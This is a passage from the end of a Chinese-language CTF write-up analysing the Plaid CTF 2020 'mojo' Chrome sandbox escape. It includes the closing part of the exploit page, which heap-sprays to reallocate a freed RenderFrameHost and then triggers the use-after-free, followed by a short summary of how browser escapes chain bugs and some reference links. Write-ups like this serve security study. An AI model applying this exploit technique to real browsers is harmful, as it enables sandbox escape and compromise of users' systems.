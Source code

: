 ```html
			frame = 0;
			var arr = [];
			//Reallocate of RenderFrameHost with our controlled data.
			for(let i = 0;i< 0x400;i++){    // 堆喷重新获得之前释放的render_frame_host_堆块
				await p.storeData("bruh"+i,frameData8);
			}
			//go go
			await frameStore.getData("yeet0",0); // 触发render_frame_host_->IsRenderFrameLive()
			});
		}
        
	document.addEventListener("DOMContentLoaded",()=>{a();});
	</script>
    </body>
</html>
```

运行效果示意图：

![image-20200915141615676](D:\github\De4dCr0w.github.io\image\2020-09-14-Plaid-CTF-2020-mojo-chrome沙箱逃逸分析\2.png)



所以目前总结chrome 逃逸一般需要两个漏洞进行：

（1）信息泄露，泄露出chrome 加载的基地址

（2）可以进行代码执行的漏洞，比如越界读写，UAF之类的漏洞，修改某个结构的函数指针，进行代码执行。



## 参考链接

https://www.anquanke.com/post/id/209800#h3-6

https://trungnguyen1909.github.io/blog/post/PlaidCTF2020/

https://pwnfirstsear.ch/2020/04/20/plaidctf2020-mojo.html

https://play.plaidctf.com/files/mojo-837fd2df59f60214ffa666a0b71238b260ffd9114fd612a7f633f4ba1b4da74f.tar.gz